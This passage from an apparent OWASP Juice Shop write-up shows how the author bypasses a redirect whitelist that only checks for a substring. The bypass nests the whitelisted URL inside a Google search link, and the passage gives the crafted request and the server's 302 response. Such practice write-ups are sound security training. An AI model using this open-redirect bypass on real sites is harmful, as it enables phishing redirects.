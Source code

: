 ![redirect](/img/owasp-juice-shop-v7.3.0/juice091.png)

It worked as far as fooling the redirect, but... doesn't quite work.

![redirect](/img/owasp-juice-shop-v7.3.0/juice090.png)

A different idea - use the whitelisted URL as a parameter to one not on the whitelist. The redirect appears to just look for the whitelist URL as a substring of whatever we provide. For fun, make it a functioning Google search,

```
GET /redirect?to=https://www.google.com/search?q=http://shop.spreadshirt.com/juiceshop HTTP/1.1
[...]
```

```
HTTP/1.1 302 Found
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Location: https://www.google.com/search?q=http://shop.spreadshirt.com/juiceshop
Vary: Accept
Content-Type: text/html; charset=utf-8
Content-Length: 182
Date: Thu, 09 Aug 2018 00:24:27 GMT
Connection: close

<p>Found. Redirecting to <a href="https://www.google.com/search?q=http://shop.spreadshirt.com/juiceshop">https://www.google.com/search?q=http://shop.spreadshirt.com/juiceshop</a></p>
```
